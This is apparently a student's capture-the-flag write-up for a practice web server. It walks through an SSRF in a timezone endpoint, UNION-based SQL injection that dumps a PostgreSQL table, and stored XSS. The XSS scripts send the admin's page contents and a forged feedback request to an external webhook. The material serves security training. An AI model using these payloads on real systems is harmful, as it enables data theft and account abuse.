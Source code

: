 # Write-up for http://web.kazet.cc:31339/

## **SSRF** - http://web.kazet.cc:31339/time
By checking the Network tab, we can see that when loading any sub-page, 3 POST requests are being sent to the `/time` endpoint, with the timezone specified in their JSON like so:
```
curl 'http://web.kazet.cc:31339/time' \
-X POST 
-H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0' \
-H 'Accept: */*' \
-H 'Accept-Language: en-US,en;q=0.5' \
-H 'Accept-Encoding: gzip, deflate' \
-H 'Referer: http://web.kazet.cc:31339/send_article' \
-H 'Content-Type: application/json' \
-H 'Origin: http://web.kazet.cc:31339' \
-H 'Connection: keep-alive' \
-H 'Cookie: session=.eJwlzj0OwyAMQOG7MHcA_2Ccy0TYGLXKRpqp6t0bqeNbnr5P2ueK85m297rikfbXSFsaED2rMJJQmzEGEBfTbFypC7K45qI1MimzewxTbVrEgjpgdmfrMqYjEgv3aiI4hRQhc1Fx9-I4GkHMgDutRC73OdwbTIB0Q64z1l9zHARaQdP3B-FdMPk.Y11nRg.A9mOvfpy2LOQt4lHOZ5tG4wveCY' \
--data-raw '{"timezone":"newyork"}'
```
Let's try inputting a timezone not specified in the page's [script](http://web.kazet.cc:31339/static/script.js). By doing that we get an error message along the lines of:
```
{"info":"nie uda\u0142o si\u0119 pobra\u0107 http://dubai.timezone.internal","status":"error"}
```
Thus, `newyork` and the others must have been addresses of some internal services. Substuting the city name for `localhost` and adding "`/?`" leads to the "`.timezone.internal`" suffix being treated as a GET request's parameter. Reiterating, we call the curl above, tweaking the last line:
```
--data-raw '{"timezone":"localhost/?"}'
```
and it outputs the flag:
```
{"info":"FLAG{0c55606a072a912d264846cd22c95020e781}","status":"ok"}
```
---
## **SQL Injection** - http://web.kazet.cc:31339/stats/{year}
Resources used:
- https://portswigger.net/web-security/sql-injection/union-attacks
- https://portswigger.net/web-security/sql-injection/examining-the-database

After inputting an non-numeric string in place of the `year` in the url, we are presented with an SQL error. This hints to a SQL Injection being possible. Let's examine the database:
```pgsql
web.kazet.cc:31339/stats/1 AND 1 = 0 UNION SELECT version(), NULL --
```
The output is `PostgreSQL 15.0`. After playing with the `UNION` statement, we come to the conclusion that we can query two fields and the first one contains a string. With this knowledge, let's try to learn the database's tables, which in PostgreSQL is done by querying `information_schema.tables`:
```pgsql
web.kazet.cc:31339/stats/1 OR 1=0 UNION ALL SELECT table_name, NULL FROM information_schema.tables OFFSET 3--
```
We use the `UNION ALL` operator for no rows to get lost. The output shows a table with the name `interesting_and_secret_information`. The name suggests it is what we're looking for. Let's query its columns:
```pgsql
web.kazet.cc:31339/stats/1 OR 1=0 UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='interesting_and_secret_information'--
```
This outputs a column with the name `secret_text_for_example_a_flag`. Let's view its type:
```pgsql
web.kazet.cc:31339/stats/1 OR 1=0 UNION SELECT data_type, NULL FROM information_schema.columns WHERE column_name='secret_text_for_example_a_flag'--
```

What's left is to view that secret text:
```pgsql
http://web.kazet.cc:31339/stats/1 OR 1=0 UNION SELECT secret_text_for_example_a_flag, NULL FROM interesting_and_secret_information --
```
It outputs:
```
FLAG{this_is_a_long_and_interesting_flag_9393265140f32ff7...
```
So we're almost there. Let's query for a substring of that result:
```pgsql
http://web.kazet.cc:31339/stats/1 OR 1=0 UNION ALL SELECT substring(secret_text_for_example_a_flag, 18), NULL FROM interesting_and_secret_information --
```
And so we get the entire flag:
```
ng_and_interesting_flag_9393265140f32ff7fc9f3b5bc9c065b3e6fdc4f4}
```

---
## **XSS** - http://web.kazet.cc:31339/send_article
Let's copy the POST request that submits the article for further use:
```
curl 'http://web.kazet.cc:31339/send_article' \
-X POST \
-H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0' \
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' \
-H 'Accept-Language: en-US,en;q=0.5' \
-H 'Accept-Encoding: gzip, deflate' \
-H 'Content-Type: application/x-www-form-urlencoded' \
-H 'Origin: http://web.kazet.cc:31339' \
-H 'Connection: keep-alive' \
-H 'Referer: http://web.kazet.cc:31339/send_article' \
-H 'Cookie: session=.eJwlzj0OwyAMQOG7MHcA_2Ccy0TYGLXKRpqp6t0bqeNbnr5P2ueK85m297rikfbXSFsaED2rMJJQmzEGEBfTbFypC7K45qI1MimzewxTbVrEgjpgdmfrMqYjEgv3aiI4hRQhc1Fx9-I4GkHMgDutRC73OdwbTIB0Q64z1l9zHARaQdP3B-FdMPk.Y10YlA.tnVOglW7kp0X9pNztyb1ZEDXZ9E' \
-H 'Upgrade-Insecure-Requests: 1' \
--data-raw 'article=%3Cp%3E<CONTENTS>%3C%2Fp%3E'
```
where `<CONTENTS>` is whatever whe enter in the field, naturally it has to be [url-encoded](https://www.urlencoder.org/).

By viewing the input box's HTML it's evident that one can input any valid HTML, there's also no need for the enclosing `<p>` tags. So why not try some simple JS that pings a webhook of ours?
```html
<script>
   const webhook = 'https://webhook.site/82310b30-bdb3-45f9-8d46-92f9c44fcf0d';
   window.location.href = webhook + "?data=" + encodeURIComponent(document.body.innerHTML)
</script>
```
By executing this with the previous curl we get the webpage's HTML from the admin's perspective, which provides an additional tab/endpoint: `/send_feedback`. Let's refine our XSS script to view that sub-page:
```html
<script>
   const webhook = 'https://webhook.site/82310b30-bdb3-45f9-8d46-92f9c44fcf0d';

   fetch('/send_feedback')
      .then(response => response.text())
      .then(data => window.location.href = webhook + "?data=" + encodeURIComponent(data))
      .catch(err => window.location.href = webhook + "?err="  + encodeURIComponent(err));
</script>
```
On that sub-page we see a [Bootstrap form](https://getbootstrap.com/docs/4.0/components/forms/) and deduce the page can be queried with a POST request and a JSON whose fields are:
`["receiver", "content", "debug"]`. The `debug` checkbox looks promising - according to the comment, checking it will provide us with the system's diagnostic data. Let's try that:
```html
<script>
   const webhook = 'https://webhook.site/82310b30-bdb3-45f9-8d46-92f9c44fcf0d';
   var formData = new FormData();
   formData.append('receiver', 'kk429629'); // my login for the
   formData.append('content', "Here's your diagnostics:");
   formData.append('debug', 'on');

   fetch('/send_feedback', { method: 'POST', body: formData })
      .then(response => response.text())
      .then(data => window.location.href = webhook + "?data=" + encodeURIComponent(data))
      .catch(err => window.location.href = webhook + "?err="  + encodeURIComponent(err));
</script>
```
After refreshing the page, we get:
```
Informacja zwrotna: Here's your diagnostics:
flaga: FLAG{752e8db03d875cfec6bdf8305756f1bb} 
```
